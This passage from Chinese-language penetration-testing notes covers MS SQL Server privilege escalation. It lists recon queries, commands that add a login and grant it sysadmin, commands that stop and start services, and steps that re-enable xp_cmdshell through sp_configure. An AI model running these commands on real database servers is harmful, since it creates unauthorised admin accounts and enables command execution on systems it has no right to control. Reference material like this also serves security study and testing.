   ```
  sp_helpsrvrolemem
  ```

* 查看当前数据库 

  ```
  select db_name()
  ```

* 显示机器上的驱动器

  ```
  xp_availblemedia
  ```

**5.2.3 常见的提权命令**

* 查看当前用户权限

  ```
  select IS_SRVROLEMEMBER('sysadmin')
  类似： serveradmin、setupadmin、securityadmin、diskadmin、bulkadmin、select IS_MEMBER('db_owner')
  ```

* 添加用户

  ```
  exec master.dbo.sp_addlogin test,password   # 添加用户
  exec master.dbo.sp_addsrvrolemember test,sysadmin # 加权限
  ```

* 启动停止服务

  ```
  exec master..xp_servicecontrol 'stop','test'
  exec master..xp_servicecontrol 'start','test'
  ```

* 检查功能

  ```
  SELECT count(*) FROM master.dbo.sysobjects WHERE name='xp_cmdshell'
  xp_cmdshell、xp_regread、sp_makewebtask、xp_subdirs、xp_dirtree、sp_addextendeproc
  ```

##### 5.2.1 xp_cmdshell

xp_cmdshell默认在mssql2000中是开启的，在mssql2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure重修开启它。

- 开启

```
EXEC sp_configure 'show advanced options',1//允许修改高级参数
RECONFIGURE
EXEC sp_configure 'xp_cmdshell',1  //打开xp_cmdshell扩展
RECONFIGURE
```

- 关闭

```
exec sp_configure 'show advanced options', 1;reconfigure;
exec sp_configure 'xp_cmdshell', 0;reconfigure
```
